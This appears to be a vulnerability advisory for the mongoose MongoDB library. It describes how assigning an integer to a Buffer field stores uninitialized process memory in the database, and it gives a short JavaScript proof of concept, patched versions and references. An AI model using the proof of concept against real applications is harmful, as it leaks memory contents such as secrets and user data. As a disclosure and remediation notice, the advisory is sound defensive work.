 ## Overview
A potential memory disclosure vulnerability exists in mongoose.
A `Buffer` field in a MongoDB document can be used to expose sensitive
information such as code, runtime memory and user data into MongoDB.

### Details
Initializing a `Buffer` field in a document with integer `N` creates a `Buffer`
of length `N` with non zero-ed out memory.
**Example:**
```
var x = new Buffer(100); // uninitialized Buffer of length 100
// vs
var x = new Buffer('100'); // initialized Buffer with value of '100'
```
Initializing a MongoDB document field in such manner will dump uninitialized
memory into MongoDB.
The patch wraps `Buffer` field initialization in mongoose by converting a
`number` value `N` to array `[N]`, initializing the `Buffer` with `N` in its
binary form.

#### Proof of concept
```javascript
var mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/bufftest');

// data: Buffer is not uncommon, taken straight from the docs: http://mongoosejs.com/docs/schematypes.html
mongoose.model('Item', new mongoose.Schema({id: String, data: Buffer}));

var Item = mongoose.model('Item');

var sample = new Item();
sample.id = 'item1';

// This will create an uninitialized buffer of size 100
sample.data = 100;
sample.save(function () {
    Item.findOne(function (err, result) {
        // Print out the data (exposed memory)
        console.log(result.data.toString('ascii'))
        mongoose.connection.db.dropDatabase(); // Clean up everything
        process.exit();
    });
});
```

## Remediation
Upgrade `mongoose` to version >= 3.8.39 or >= 4.3.6.

If a direct dependency update is not possible, use [`snyk wizard`](https://snyk.io/docs/using-snyk#wizard) to patch this vulnerability.

## References
- https://github.com/Automattic/mongoose/issues/3764
- https://github.com/ChALkeR/notes/blob/master/Lets-fix-Buffer-API.md#previous-materials
- https://github.com/ChALkeR/notes/blob/master/Buffer-knows-everything.md
